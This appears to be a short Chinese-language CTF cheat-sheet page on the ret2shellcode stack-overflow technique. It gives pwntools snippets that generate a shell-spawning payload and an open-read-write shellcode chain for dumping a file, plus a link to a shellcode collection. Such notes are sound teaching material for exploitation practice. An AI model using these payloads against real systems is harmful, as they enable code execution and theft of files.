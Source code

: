 ```yaml
---
title: ret2shellcode
category: 栈溢出
---
```


### 生成 shellcode

- 设置架构

```python
context.arch = 'amd64'
```

- 生成 shellcode

```python
shellcode = asm(shellcraft.sh())
```

### ORW

```python
shellcode  = shellcraft.amd64.linux.open('PATH')
shellcode += shellcraft.amd64.linux.read('rax', 'rsp', 0x30)
shellcode += shellcraft.amd64.linux.write(1 , 'rsp' , 0x30)
shellcode  = asm(shellcode)
```

### 相关链接

- http://shell-storm.org/shellcode/ 